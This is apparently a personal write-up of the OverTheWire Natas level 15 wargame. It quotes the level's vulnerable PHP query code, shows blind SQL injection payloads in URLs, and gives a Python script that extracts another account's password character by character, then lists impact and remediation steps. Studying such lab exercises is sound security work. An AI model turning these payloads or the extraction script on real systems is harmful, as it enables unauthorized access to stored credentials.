 # [Over The Wire (natas)] – [[Platform](http://natas15.natas.labs.overthewire.org/)] – [09/24/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [15]
- Difficulty: [Easy]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)

## Login
1. Logged in with credentials:
   - **Username**: `natas15
   - **Password**: `XXXXXX`
  
2. Screenshot:
   ![alt text](image-20.png)
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas15.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      /*
      CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
      );
      */

      if(array_key_exists("username", $_REQUEST)) {
         $link = mysqli_connect('localhost', 'natas15', '<censored>');
         mysqli_select_db($link, 'natas15');

         $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
         if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
         }

         $res = mysqli_query($link, $query);
         if($res) {
         if(mysqli_num_rows($res) > 0) {
            echo "This user exists.<br>";
         } else {
            echo "This user doesn't exist.<br>";
         }
         } else {
            echo "Error in query.<br>";
         }

         mysqli_close($link);
      } else {
   ```
   - this roughly translates into 
  
   1. If the request contains a key for "username"
   create a database link using localhost and user natas15 and password

   2. Set query variable = select all user where username in the request

   3. If the key in the GET route exists then print out "Executing query: ..."-

   4. Then depending on the result of the query you will reply with either "it exists", "doesn't exist", or "error".

   5. Close the database connection

   
4. Steps taken:

   1. Taking into consideration that the query directly uses the username and password from the request params and that I can view a debugged version of what I am trying to submit.

   2. I attempted checking the params of `/?username=natas16&debug` this returned

   ![alt text](image-21.png)

   3. With this test result wecan identify that both the username and password get wrapped in `""`

   4. The next payload I attempted was `/?username=natas16"%20AND%20SUBSTRING(password,1,1)="a&debug`

   ![alt text](image-22.png)

   5. The next payload I attempted was `/?username=natas16"%20AND%20SUBSTRING(password,1,1)="h&debug`

   ![alt text](image-23.png)

   6. This indicates that the vulnerablity is there to guess the password on index at a time assuming the password is alphanumeric and 32 characters long. 

   7. Taking this into consideration and knowing what the expected responses are I could create a python script to attempt a combination of a-zA-Z0-9 or 36 characters. Combining this with BINARY in sql for case-sensitivity. 1152 possible combinations which makes it still very effective. 

   ```python
      import requests
      from requests.auth import HTTPBasicAuth

      # --- Configuration ---
      url = "http://natas15.natas.labs.overthewire.org/"
      auth = HTTPBasicAuth("natas15", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual
      username = "natas16"
      charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

      password = ""  # will accumulate discovered characters

      # --- Loop through each position (1 to 32) ---
      for pos in range(1, 33):
         found = False
         for c in charset:
            # Build the payload (case-sensitive with BINARY)
            payload = f'{username}" AND BINARY SUBSTRING(password,{pos},1)="{c}" -- '
            print(payload)
            params = {"username": payload}
            
            # Send request
            r = requests.get(url, params=params, auth=auth)

            # Check response
            if "This user exists" in r.text:
                  password += c
                  print(f"[+] Found character {pos}: {c} | Current password: {password}")
                  found = True
                  break
         
         if not found:
            print(f"[-] No matching character found at position {pos}")
            break

      print(f"\n[!] Full password: {password}")

   ```
   
   8. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application directly inserts user input into an SQL query without proper sanitization.

   - The username parameter is vulnerable to SQL injection because it is concatenated into the query string.

   - The application returns different responses based on whether the query matches a row, allowing an attacker to infer information from the database.

   - Case-insensitive comparisons in MySQL reveal multiple possibilities unless BINARY is used for precise, case-sensitive checks.

   - The predictable 32-character alphanumeric password allows systematic, character-by-character extraction.

---

💥 **Impact**

   - An attacker can retrieve the full password of any user in the database.

   - Unauthorized access to sensitive accounts (like natas16) is possible.

   - Reveals a fundamental flaw in input handling that could be exploited on other parameters or tables.

   - Demonstrates how blind SQL injection can be used to bypass authentication controls.

   - Could potentially be extended to extract other sensitive data if the database contains additional information.

---
  
🛠️ **Remediation**

   - Always use parameterized queries or prepared statements to avoid direct string concatenation in SQL queries.

   - Validate and sanitize all user input, enforcing expected data types and lengths.

   - Limit error messages and query debug output in production to prevent information disclosure.

   - Consider enforcing case-sensitive password checks where appropriate to reduce ambiguity in comparisons.

   - Implement proper access controls and monitoring to detect unusual query patterns.
